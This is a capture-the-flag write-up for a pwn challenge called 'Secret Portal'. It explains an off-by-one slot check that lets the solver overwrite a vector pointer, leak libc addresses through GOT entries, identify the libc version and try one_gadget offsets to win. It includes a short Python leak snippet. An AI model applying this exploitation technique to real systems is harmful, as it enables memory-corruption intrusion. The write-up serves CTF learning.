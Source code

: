# Secret Portal - Pwn
My only solve for this 5 hour competition! (Not to complain, but all challenges gave the same amount of points even though 2 of the crypto was easily solved with AI)

Description:
``` 
I was too broke to afford an actual car, so I decided to make this app to simulate a carpark instead...

Author: elijah5399

Example Flag Format: ICO{xxxxxxx}

nc ico-carpark.nusgreyhats.org 80

backup: nc ico.nusgreyhats.org 33102
```

While looking through the code, you might notice that there will be allocated 10 bytes for it. But we can change index 10, which means there is off-by-one vuln.
```cpp
struct Carparks {
    ll carpark1[CARPARK1_SPACE];
    vector<ll> carpark2 = vector<ll>(CARPARK2_SPACE, 0); 
};
        ...
            if (slot < 0 || slot > CARPARK1_SPACE) {
                puts("Invalid slot!");
                continue;
            }
        ...
    }
``` 
Hence, we can overwrite the address for the second carpark. That means that we can write and read arbitrarily in memory. The executeable is compiled with --no-pie, so the addresses are not random, and we can therefore leak libc addresess. At first, I didn't realise we had gotten a Dockerfile and could find the libc version using that, so I leaked 4 different function addreses and put them into !(libc.rip)[https://libc.rip/]
First I would find the GOT entry for a function: `readelf -r chall`
Second, I could overwrite the second car park with the address and read the libc address:
```py
printf_addr = 0x404020
change_carpark1(10, printf_addr)  
leaked_printf = view_carpark2(0)
print(f"Leaked printf@libc: {hex(leaked_printf)}")
```

```
Leaked printf@libc: ...
Leaked puts@libc: ...
Leaked set_vbuf@libc: ...
Leaked setbuf@libc: ...
```
Putting the functions and offsets into !(libc.rip)[https://libc.rip/] gave me these possible libc versions:
```
libc6_2.35-0ubuntu3.10_amd64.so  libc6_2.35-0ubuntu3.7_amd64.so
libc6_2.35-0ubuntu3.4_amd64.so   libc6_2.35-0ubuntu3.8_amd64.so
libc6_2.35-0ubuntu3.5_amd64.so   libc6_2.35-0ubuntu3.9_amd64.so
libc6_2.35-0ubuntu3.6_amd64.so
``` 
I then enumerated them and found out every one of them had the exact same one_gadget addresses by running `one_gadget --raw libc...`
I then cleaned up my python script and wrote `clean.py` that tries every single one_gadget using and uses a specific libc file for offset comparison. (Of course this would be unecesarry if I had gotten the exact libc version from the docker container)
`clean.py` got me the flag
